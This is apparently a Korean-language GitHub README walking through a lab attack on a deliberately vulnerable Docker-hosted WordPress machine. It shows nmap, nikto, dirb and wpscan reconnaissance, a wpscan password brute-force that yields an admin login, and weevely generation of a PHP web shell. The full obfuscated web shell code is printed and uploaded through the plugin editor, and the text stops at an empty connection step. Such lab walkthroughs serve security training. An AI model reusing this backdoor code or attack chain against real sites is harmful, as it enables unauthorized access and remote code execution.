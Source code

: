 ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/13f1f546-cc3c-4287-8bca-252a673443b8)
## Docker_WP_Hacking
도커 환경으로 구성한 워드프레스를 도커 취약점과 워드프레스 취약점을 이용해 해킹해보기.

## 사전준비
- 취약한 도커 이미지를 가상화 툴에 올려 준비해준다. : 192.168.146.129
- Kali Linux : 192.168.146.128
- WireShark
- Burpsuite (Decoder용도)

## 정보수집
- nmap을 통한 포트 스캔
```
sudo nmap -sV 192.168.146.129 -p-
sudo nmap -sV -sC 192.168.146.129 -p-
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/0a64950c-3f19-472f-8145-93b562db515d)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/11b8c2fe-2e10-4cc5-81fc-26bbdedfbe16)
- /wp-admin/ 경로 정보 획득
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/c2041775-4ecb-4186-9f02-771b675487ba)
- 8000 포트, 22번 포트 확인
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/31d1c0dd-a66d-45b1-9984-02de893825bd)

- Nikto를 통한 정보 수집
```
sudo nikto -h http://192.168.146.129:8000/
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/3cf75a46-568c-4f8c-8a2c-03bb9e1f6862)

- dirb를 통한 정보 수집
```
sudo dirb http://192.168.146.129:8000/
```
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/170e296e-7298-4bb8-9ec1-25f0e5df1b61)

- wpscan을 통한 정보(워드프레스 플러그인 취약점) 수집
```
wpscan --url http://192.168.146.129:8000/ --enumerate p
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/7979d634-5639-49df-8567-7f1fa200fac6)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/71539c00-8342-4b39-9c93-4b868c99b1f9)
- 메시지를 읽어보니 POST 메소드는 허용하는 것으로보아 무차별 대입공격을 허용하는 것 같다.

## brute-force 공격

-wpscan을 이용해 wordpress 계정 정보 얻기

```
wpscan --url http://192.168.146.129:8000/ --enumerate u
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/b61fb484-9230-47ca-a415-76c5c4c09b5e)

- wpscan의 무차별 대입 공격 기능 사용
- github SecList의 password 모음을 사용.

```
sudo git clone https://github.com/danielmiessler/SecLists.git
sudo wpscan --url http://192.168.146.129:8000/ --passwords ~/SecLists/Passwords/Common-Credential/10-million-password-list-top-10000.txt --usernames bob
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/80b80b6e-0292-4a3d-9b38-67e3c97675a0)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/210c83da-95ac-42e7-b7d8-c04bbb289f9c)

## 웹쉘 생성
- weevly를 사용하여 웹쉘 생성
```
sudo weevely generate hacker shell.php
cat shell.php
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/466ade39-1490-4a56-b3d7-ad1a12b9d5aa)

## 웹쉘 코드 업로드
- [wordpress admin site] -> [login(bob/Welcome1)] -> [plugins] -> [Editor]

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/1db97540-a895-4d8f-915c-5c291598a904)

```
?>
<?php
$B=str_replace('WQ','','cWQreatWQWQe_fWQuncWQtWQion');
$Z='$ku2="du26a6bc0d";$u2khu2="b10694a2du290e";$kf="u23a6964u28u2f3a03";$p=u2"g7e6u2hLIPrmHu2v7eIu2ju2";fun';
$l='u2val(@gzuncomu2pru2ess(@x(u2@base6u24_decode($m[1])u2,$k)))u2;$ou2=@ou2b_get_cou2ntentu2s();@obu2';
$A='u2"/$kh(.u2+)u2$kf/",@file_u2get_cu2ou2ntents(u2"php://inpu2uu2t"),u2$m)==1)u2 {@ob_u2su2tart();@e';
$h='2u2u2($j<$c&&$u2i<$l);$j++,u2$i++u2){u2$o.=$t{$iu2}^u2$k{$j}u2;}}returnu2 u2$o;}if (@preg_mau2tch(';
$d='_endu2u2_cleanu2();$r=u2@bu2ase64_encode(@u2x(@gu2zcompress($u2u2o),$k))u2;pu2rint("$p$kh$r$kf");}';
$G='cu2tion x($t,$k){$u2c=stru2len($ku2);$lu2u2=strlen($tu2)u2;$o="";for(u2$i=u20;$i<$l;){fu2or($j=0;u';
$k=str_replace('u2','',$Z.$G.$h.$A.$l.$d);
$C=$B('',$k);$C();
?>
<?php

```

- [Update File]

## 웹쉘 연결
- 
